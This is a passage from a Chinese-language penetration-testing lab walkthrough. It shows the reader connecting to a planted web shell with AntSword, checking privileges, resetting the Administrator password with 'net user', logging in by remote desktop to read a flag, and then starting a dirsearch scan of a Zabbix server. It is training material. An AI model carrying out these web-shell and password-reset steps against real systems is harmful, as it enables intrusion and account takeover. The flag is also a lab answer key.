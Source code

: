 蚁剑中添加shell：

```
shell url:

http://192.168.12.55/im/YM=后面的值/id参数下划线后面的值.shell.php

shell pwd:

cmd
```

![image-20221110113426889148-1669009403711873.png](img/典型企业生产环境渗透赛 Local.assets/301050148c6f61e37eda4c238f5ef72e.png)

点击`Add`完成添加，选中该URL右键点击`>_ Terminal`进入终端，执行命令查看当前用户权限：

```
whoami
```

![image-20221110113701009660-1669009404926730.png](img/典型企业生产环境渗透赛 Local.assets/c99550c7d75cd98ca0b9913637413410.png)

查看用户信息：

![image-20221110113752119510-1669009406108608.png](img/典型企业生产环境渗透赛 Local.assets/dde74a472877836be3f16e751573c47b.png)

尝试修改Administrator账户密码：

```
net user Administrator qwer1234
```

![image-20221110113829720980-1669009407309068.png](img/典型企业生产环境渗透赛 Local.assets/1e1bab6cfe65eb16cf8557acad1886c7.png)

修改成功后通过远程桌面进行连接：

![image-20211112173115720143-1669009408481371.png](img/典型企业生产环境渗透赛 Local.assets/8f261587ed26d8ec9cade9f94be84981.png)

远程主机地址`192.168.12.55`，登录信息`Administrator/qwer1234`：

![image-20211112215213430461-1669009409625018.png](img/典型企业生产环境渗透赛 Local.assets/2e151bd67eee5cc6c3f66dd078b3223b.png)

在桌面发现`flag.txt`文件：

![image-20221110133329578720-1669009410816634.png](img/典型企业生产环境渗透赛 Local.assets/07813314d8a915bb3e79e97076325e0e.png)

```
flag{32D3-0BA4-076B-FE71-A6E8-0960-84AA-4F5F}
```

##### 任务8：Zabbix目录扫描(T1595 - 主动扫描)

```
本场景的第8个任务是通过工具zabbix服务器进行目录扫描，获取敏感信息。

dirsearch是一个python开发的目录扫描工具，目的是扫描网站的敏感文件和目录从而找到突破口。

该任务可以通过以下操作完成。
```
